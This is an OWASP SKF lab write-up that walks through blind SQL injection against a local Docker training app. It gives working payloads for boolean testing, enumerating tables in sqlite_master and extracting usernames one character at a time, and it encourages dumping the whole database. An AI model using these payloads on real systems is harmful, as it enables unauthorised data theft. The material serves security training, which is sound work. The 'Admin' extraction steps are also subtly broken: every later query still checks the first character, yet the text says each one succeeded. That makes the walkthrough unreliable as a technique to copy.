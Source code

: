 # KBID 156 - SQLI \(Blind\)

## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:sql-injection-blind
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:sql-injection-blind
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to ING!](.gitbook/assets/ING_Primary_Logo.png)

## Reconnaissance

### Step1

The first step is to identify parameters which could be potentially used in an SQL query to communicate with the underlying database. In this example we find that the "/home" method grabs data by pageID and displays the content.

![](.gitbook/assets/sqli-blind-1.png)

```text
http://localhost:5000/home/1
```

### Step2

Now let's see if we can create an error by injecting a single quote

![](.gitbook/assets/sqli-blind-2.png)

```text
http://localhost:5000/home/1'
```

However, it's still not possile  we can't see this as the application shows a 404 Error page. 

### Step3

Now we need to inject logic operators to check if the application is vulnerable to SQL Injection.  

First, we inject a logical operator which is true \(or 1=1\). This should result in the application run as intended without errors.

![](.gitbook/assets/sqli-blind-3.png)

```text
http://localhost:5000/home/1 OR 1=1
```

After that we inject a logical operator which is false\ (and 1=2\). This should result in the application returning an error.

![](.gitbook/assets/sqli-blind-4.png)

```text
http://localhost:5000/home/1 AND 1=2--
```

By doing so we are sure the application has a SQL Injection vulnerability.

This is due to the fact that the user supplied input is being directly concatenated into the SQL query.

```python
db.execute('SELECT pageId, title, content FROM pages WHERE pageId='+pageId)
```

## Exploitation

Now that we know that the application is vulnerable for SQL injections we are going to use this vulnerability to read sensitive information from the database. This process could be automated with tools such as SQLMAP. However, for this example let's try to exploit the SQL injection manually.

### Step1

We need to determine which conditions are TRUE and FALSE for the application. By trial and error it's possible to determine the pageIDs 1,2 and 3 are valid, whereas 4 is not.

![](.gitbook/assets/sqli-blind-6.png)

```text
http://localhost:5000/home/1
```

![](.gitbook/assets/sqli-blind-5.png)

```text
http://localhost:5000/home/4
```

#### Step 2

Now, we need to inject a IF condition, returning 1 for the TRUE cases and 4 for the FALSE ones.

![](.gitbook/assets/sqli-blind-7.png)

```text
http://localhost:5000/home/(select case when 1=1 then 1 else 4 end)
```

#### Step 3

Next step is to add more logic to our injection and starting to retrieve information from data tables. Remember we will never view the data we are retrieving from the DB in the page, but we will do it by logicaly testing if the data exists. 

Let's check if the table users exists.

![](.gitbook/assets/sqli-blind-9.png)

```textile
http://localhost:5000/home/(select case when tbl_name='users' then 1 else 4 end from sqlite_master where type='table')
```

Good news! As we didn't see an error, it means the table *users* exists.

By testing different table names, we will receive an 404 error, indicating the table does not exist.

![](.gitbook/assets/sqli-blind-8.png) 

### Step 4

From the *user* table is possible to see that the table contains the columns *UserId* , *UserName* and *Password*

![](.gitbook/assets/sqli-blind-10.png)

Let's try to extract a valid user. Instead of having a dictionary of possible users to guess, we can check if the first letter of the first user contains the letter *a*.

![](.gitbook/assets/sqli-blind-11.png)

```textile
http://localhost:5000/home/(select case when substr(UserName,1,1)='a' then 1 else 4 end from users limit 0,1)
```

The error indicates it's not the case. Let's try with the letter *A*. Remember, case matters.

![](.gitbook/assets/sqli-blind-12.png)

```
http://localhost:5000/home/(select case when substr(UserName,1,1)='A' then 1 else 4 end from users limit 0,1)
```

Yes, it matches!

As initial guess, *Admin* could be a possible user. So, let's test this theory:

```
http://localhost:5000/home/(select case when substr(UserName,1,1)='d' then 1 else 4 end from users limit 0,1)
```

```
http://localhost:5000/home/(select case when substr(UserName,1,1)='m' then 1 else 4 end from users limit 0,1)
```

```
http://localhost:5000/home/(select case when substr(UserName,1,1)='i' then 1 else 4 end from users limit 0,1)
```

```
http://localhost:5000/home/(select case when substr(UserName,1,1)='n' then 1 else 4 end from users limit 0,1)
```

We made it! None of the requests above returned *404 Error*, so this indicates *Admin* is a valid value.

Now that you know the logic, you can extract  all UserNames stored within this table. 

Why not dumping the whole database?

Don't forget to play with Limit numbers to fetch more records.



Please refer to the OWASP testing guide for a full complete description about SQL injection with all the edge cases over different platforms!

[https://www.owasp.org/index.php/Testing\_for\_SQL\_Injection\_\(OTG-INPVAL-005\)](https://www.owasp.org/index.php/Testing_for_SQL_Injection_%28OTG-INPVAL-005%29)

SQLite Reference

https://www.techonthenet.com/sqlite/sys_tables/index.php

